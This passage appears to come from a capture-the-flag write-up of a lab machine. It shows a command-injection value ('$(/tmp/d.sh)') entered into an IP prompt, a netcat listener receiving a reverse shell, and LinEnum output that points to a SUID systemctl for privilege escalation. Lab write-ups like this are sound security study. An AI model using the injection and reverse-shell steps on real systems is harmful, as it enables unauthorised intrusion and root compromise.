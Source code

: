     ***********************************************
    
    Enter an IP: $(/tmp/d.sh)
    

I get a shell as pepper:

    
    
    root@kali# nc -nlvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37144.
    id
    uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
    

Now I can grab `user.txt`:

    
    
    pepper@jarvis:~$ cat user.txt 
    2afa36c4...
    

## Priv: pepper –> root

### Enumeration

I uploaded `LinEnum.sh` and ran it (with `-t`). The SUID section was
interesting:

    
    
    [-] SUID files:
    -rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount                
    -rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping                      
    -rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl       
    -rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount                                             
    -rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su                            
    -rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp                  
    -rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd                  
    -rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd                                                            
    -rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh                                                   
    -rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 440728 Mar  1 11:19 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    

I’m specifically interested in `/bin/systemctl`. This binary is a systemd
utility which is responsible for Controlling the systemd system and service
manager. That is, it creates and manages services. And in this case, only root
and users in the group pepper (me) can run it, and it will run as root.
